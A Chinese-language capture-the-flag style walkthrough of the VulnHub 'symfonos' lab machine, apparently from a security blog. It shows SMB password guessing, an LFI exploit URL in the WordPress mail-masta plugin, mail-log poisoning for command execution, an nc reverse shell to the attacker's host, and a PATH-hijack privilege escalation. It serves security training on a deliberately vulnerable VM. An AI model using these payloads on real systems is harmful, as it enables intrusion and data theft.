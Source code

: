 ```yaml
---
layout: post
title:  "vulnhub >_ symfonos"
description: walkthrough
category: vulnhub
---
```

# symfonos

![image-20200629022842763]({{ site.url }}/assets/symfonos.assets/image-20200629022842763.png)

![image-20200629023013915]({{ site.url }}/assets/symfonos.assets/image-20200629023013915.png)

![image-20200629023529071]({{ site.url }}/assets/symfonos.assets/image-20200629023529071.png)

25邮件服务验证用户

![image-20200629023757731]({{ site.url }}/assets/symfonos.assets/image-20200629023757731.png)

![image-20200629024527515]({{ site.url }}/assets/symfonos.assets/image-20200629024527515.png)

![image-20200629023931759]({{ site.url }}/assets/symfonos.assets/image-20200629023931759.png)

![image-20200629024006390]({{ site.url }}/assets/symfonos.assets/image-20200629024006390.png)

使用这三个密码分别尝试登录helios

```bash
smbclient --user=helios //192.168.43.3/helios
```

最后密码是第二个`qwerty`

![image-20200629030157047]({{ site.url }}/assets/symfonos.assets/image-20200629030157047.png)

![image-20200629030303698]({{ site.url }}/assets/symfonos.assets/image-20200629030303698.png)

页面刷新非常慢，源码中显示了域名，先加入hosts

![image-20200629030703335]({{ site.url }}/assets/symfonos.assets/image-20200629030703335.png)

![image-20200629030817862]({{ site.url }}/assets/symfonos.assets/image-20200629030817862.png)

一个wordpress，同时显示了admin用户

![image-20200629031016582]({{ site.url }}/assets/symfonos.assets/image-20200629031016582.png)

wpscan

```bash
wpscan --url http://symfonos.local/h3l105/ -e ap,vt,cb,u --force
```



![image-20200629033105259]({{ site.url }}/assets/symfonos.assets/image-20200629033105259.png)

查询漏洞存在LFI

![image-20200629034050072]({{ site.url }}/assets/symfonos.assets/image-20200629034050072.png)

![image-20200629034118841]({{ site.url }}/assets/symfonos.assets/image-20200629034118841.png)

验证

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![image-20200629033615207]({{ site.url }}/assets/symfonos.assets/image-20200629033615207.png)



我们可以通过为我们已知的邮件用户名进行smtp邮件日志投毒。

首先验证是否能成功包含邮件日志

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
```

![image-20200629034542641]({{ site.url }}/assets/symfonos.assets/image-20200629034542641.png)

成功，下面我们通过给helios发送插入cmd shell的恶意php语句，来对邮件日志进行投毒

![image-20200629035108611]({{ site.url }}/assets/symfonos.assets/image-20200629035108611.png)

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

![image-20200629035610736]({{ site.url }}/assets/symfonos.assets/image-20200629035610736.png)

成功，现在把webshell转为rshell,在kali端1337端口设立监听。webshell执行

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/bash 192.168.43.66 1337
```

![image-20200629040250652]({{ site.url }}/assets/symfonos.assets/image-20200629040250652.png)

sudo -l 没有，查找suid

![image-20200629040401926]({{ site.url }}/assets/symfonos.assets/image-20200629040401926.png)

opt中应该是后安装的，检查文件

![image-20200629040609972]({{ site.url }}/assets/symfonos.assets/image-20200629040609972.png)

看上去调用了curl，我们来伪造curl程序，然后改变环境变量，执行，root

![image-20200629041111748]({{ site.url }}/assets/symfonos.assets/image-20200629041111748.png)

